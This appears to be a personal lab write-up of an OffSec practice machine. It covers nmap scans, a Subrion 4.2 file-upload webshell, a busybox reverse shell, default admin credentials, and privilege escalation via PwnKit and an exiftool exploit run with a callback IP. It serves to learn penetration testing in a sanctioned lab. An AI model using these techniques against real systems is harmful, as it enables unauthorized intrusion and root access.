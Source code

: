 ### Enumeration
```
IP=192.168.187.163
sudo nmap -sU $IP
sudo nmap -p- -vv $IP
sudo nmap -p22,80 -A $IP
```
#### Ports
- 22
	- OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
- 80
	- Apache httpd 2.4.41 ((Ubuntu))
	- `http://exfiltrated.offsec/
	- Added to /etc/hosts: `192.168.187.163 exfiltrated.offsec`
### Foothold
- 80
	- Default page
		- ![[Pasted image 20240625090253.png]]
		- tab bar says: powered by subrion 4.2
		- Searchsploit subrion 4.2
			- XSS, File upload
			- Exploit-db 49876
				- Uploads a .phar file
				- .htaccess allows phar files to be executed
				- Changed webshell.php to webshell.phar
				- Go to panel/uploads  and drop it in there
				- ![[Pasted image 20240625091937.png]]
				- ![[Pasted image 20240625091945.png]]
				- Used busybox rev shell
	- Login page
		- admin:admin
			- successful
### PE
#### Linux
- id
	- uid=33(www-data) gid=33(www-data) groups=33(www-data)
- sudo -l
	- needs password
- uname -a
	- `Linux exfiltrated 5.4.0-74-generic #83-Ubuntu SMP Sat May 8 02:35:39 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux`
- capabilities
	- /usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
	- /usr/bin/traceroute6.iputils = cap_net_raw+ep
	- /usr/bin/ping = cap_net_raw+ep
	- /usr/bin/mtr-packet = cap_net_raw+ep
- suid
	- Nothing
	- ![[Pasted image 20240625092252.png]]
- linpeas
	- possible exploits
		- pwnkit
			- ./PwnKit
				- rooted
				- ![[Pasted image 20240625094125.png]]
	- console users
		- coaran:x:1000:1000::/home/coaran:/bin/bash
		- root:x:0:0:root:/root:/bin/bash
	- Cron
		- /image-exif.sh was always running
			- cat /opt/image-exif.sh
				- ![[Pasted image 20240625094702.png]]
			- We have read and execute permissions
			- googled exiftool privilege escalation
				- exploit-db 50911
					- python3 50911.py -s 192.168.45.195 8000
					- Now we have image.jpg
					- Now we put it into the uploads folder. Used browser to put file into uploads
					- ![[Pasted image 20240625100411.png]]
					- ![[Pasted image 20240625100429.png]]
### Lessons Learned
- Read the linpeas output thoroughly. Check any programs that are always running and see what we can do with them
- Sometime exploits don't work and you have to do them manually